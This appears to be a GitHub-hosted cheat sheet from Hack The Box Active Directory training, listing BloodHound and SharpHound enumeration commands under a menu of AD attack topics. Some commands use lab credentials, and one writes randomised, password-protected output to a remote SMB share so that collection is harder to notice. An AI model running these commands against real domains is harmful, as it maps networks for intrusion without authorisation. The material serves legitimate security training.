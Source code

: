 

Active Directory Enumeration & Attacks	
Active Directory LDAP	
Active Directory PowerView	
[Active Directory BloodHound](Active%20Directory%20BloodHound)
Windows Lateral Movement	
Using CrackMapExec	
Kerberos Attacks	
DACL Attacks I	
DACL Attacks II	
NTLM Relay Attacks	
ADCS Attacks	
Active Directory Trust Attacks	
Intro to C2 Operations with Sliver	
Introduction to Windows Evasion Techniques	
MSSQL, Exchange, and SCCM Attacks	



# Active Directory BloodHound	

| Command                                                                                                                              | Description                                      |
| ------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------ |
| `.\SharpHound.exe -c all --zipfilename inlanefreight_bloodhound`                                                                     | Run the SharpHound C# ingestor                   |
| `.\SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames`   | Randomize and hide SharpHound Output             |
| `Invoke-BloodHound -CollectionMethod all -ZipFileName ilfreight_bloodhound`                                                          | Run the SharpHound PowerShell ingestor           |
| `bloodhound-python -dc <DC> -gc <GC> -d <DOMAIN -c All -u <user>`                                                                    | Run bloodhound-python                            |
| `bloodhound-python -u P.Rosa -p 'Rosaisbest123' -d vintage.htb -c All -dc dc01.vintage.htb`                                          |                                                  |
| `bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 -k`                                 |                                                  |
| `bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 --kerberos`                         | Using BloodHound.py with Kerberos authentication |
| `runas /netonly /user:INLANEFREIGHT\htb-student cmd.exe`<br>`net view \\inlanefreight.htb\`<br>`SharpHound.exe -d inlanefreight.htb` | Running from Non-Domain-Joined Systems           |
